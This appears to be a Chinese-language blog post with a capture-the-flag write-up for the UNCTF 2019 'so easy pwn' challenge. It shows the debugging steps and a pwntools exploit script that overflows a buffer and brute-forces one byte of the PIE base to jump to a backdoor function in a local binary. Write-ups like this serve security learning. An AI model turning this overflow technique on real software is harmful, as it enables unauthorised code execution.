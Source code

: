 ```yaml
---
layout:     post
title:      "unctf 2019 so easy pwn"
#subtitle:   " \"Hello World, Hello my first Blog\""
date:       2019-11-26 21:00:00
author:     "Red"
#header-img: "img/post-bg-2015.jpg"
catalog: true
tags:
    - pwn
    - ctf
---
```


这个题经过 [@x](ma2in9.top) 的注释之后是这样的：
![](https://github.com/zhe6652/zhe6652.github.io/raw/master/_posts/unctf-2019-so-easy-pwn/main.png)

### 寻找漏洞点
思路是在两个read函数处下断点，这种写的操作最容易有漏洞，看到read了16个字节，所以拿16个A测试，关闭地址随机化之后，调试，用vmmap看加载的基地址，得到read的真实地址，初步代码如下：
```python
from pwn import *

context.log_level='DEBUG'
context.terminal=['tmux','split','-h']
sh = process('./pwn')

gdb.attach(sh,'''
	b* 0x5655595a #read1
	b* 0x56555a06 #read2
''')

sh.send("A" * 16)
sh.interactive()
```
调试之后发现welcome中的s地址为``0xffffd16c``, call函数中的v1的地址为``0xffffd178``,buf地址为``0xffffd17c``,也就是说s和v1地址只差了12，我们输入16个字节后刚好可以覆盖v1的地址，这就是漏洞所在：
![](https://github.com/zhe6652/zhe6652.github.io/raw/master/_posts/unctf-2019-so-easy-pwn/vul.png)

### 利用
查看call函数中函数恰巧return了v1，而v1又能被我们覆盖，所以利用方法不言而喻，用12个padding加上一个返回地址即可，查看程序中有back_door可以利用，但是程序开启了PIE。再看welcome函数中泄露了基地址的前16位，也就是前4个字节，back_door中
泄露了后三字节，也就是说需要我们爆破中间的一个字节：
```python
from pwn import *
context.log_level='DEBUG'	
context.terminal=['tmux','split','-h']
try:
	for i in range(0x1000, 0x10000, 0x1000):
		print hex(i)
		sh = process('./pwn')
		  
		back_door = 0x000009cd
		offset = 12 

		#gdb.attach(sh,'''
		#	b* 0x5655595a
		#	b* 0x56555a06
		#''')
		sh.recvuntil("the ")
		ads = (int(sh.recvuntil(" ", drop = True)[-6:]) << 16) +i
		print ads
		sh.recvuntil("name?")
		payload = "a"*offset +p32(back_door +ads)
		sh.send(payload)
		sh.recvuntil(":")
		sh.send("anything")
		sh.interactive()
except Exception as e:
	pass
```

这个题中有个好玩的地方就是第二次read，不管输入什么都会报错，调试得知原来read函数根本没read成功,read返回值(rax)为-1:
![](https://github.com/zhe6652/zhe6652.github.io/raw/master/_posts/unctf-2019-so-easy-pwn/read.png)
